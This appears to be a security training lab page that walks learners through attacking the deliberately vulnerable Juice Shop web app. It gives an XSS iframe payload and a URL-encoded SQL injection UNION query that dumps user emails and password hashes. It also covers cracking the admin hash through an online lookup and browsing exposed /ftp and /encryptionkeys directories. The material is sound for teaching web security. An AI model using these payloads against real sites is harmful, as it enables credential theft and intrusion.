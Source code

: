 Lab 3 – Hacking the Juice Shop
------------------------------

Objective
~~~~~~~~~

- Demonstrate the vulnerabilities in the Juice Shop web application.

- Demonstrate a cross site scripting (XSS) vulnerability.

- Demonstrate a SQL injection vulnerability.

- Demonstrate a privilege escalation vulnerability.

- Demonstrate an unauthorized directory listing.

Task – Demonstrate a cross site scripting (XSS) vulnerability
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Click on the magnifying glass in the top right of the page to expose a search field and enter the following in the field and hit enter:

``<iframe src="javascript:alert(`pwned`)">``

You should see the following page load with a popup window

    .. image:: /_static/class9/juice_shop_xss.png


Task – Demonstrate a SQL injection vulnerability
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Copy and paste the following URI after the FQDN of the Juice Shop:


.. code-block:: none
   
    /rest/products/search?q=qwert%27%29%29%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20%274%27%2C%20%275%27%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20FROM%20Users--

The location bar should look something like this:

.. code-block:: none

    https://ba3eff45-2f23-49ab-8122-2e3bdc1ed9ad.access.udf.f5.com/rest/products/search?q=qwert%27%29%29%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20%274%27%2C%20%275%27%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20FROM%20Users--

The result should be a list of all the users in the database including their hashed passwords.

    .. image:: /_static/class9/juice_shop_users.png


Task - Demonstrate a privilege escalation vulnerability
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Use a rainbow lookup table to expose the admin user's password by navigating to https://crackstation.net/ and entering the hash


    .. image:: /_static/class9/juice_shop_crackstation.png


Task - Demonstrate an unauthorized directory listing
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Navigate to /ftp to expose an unwanted directory listing

    .. image:: /_static/class9/juice_shop_ftp.png

Navigate to /encryptionkeys to expose an unwanted directory listing

    .. image:: /_static/class9/juice_shop_encryptionkeys.png


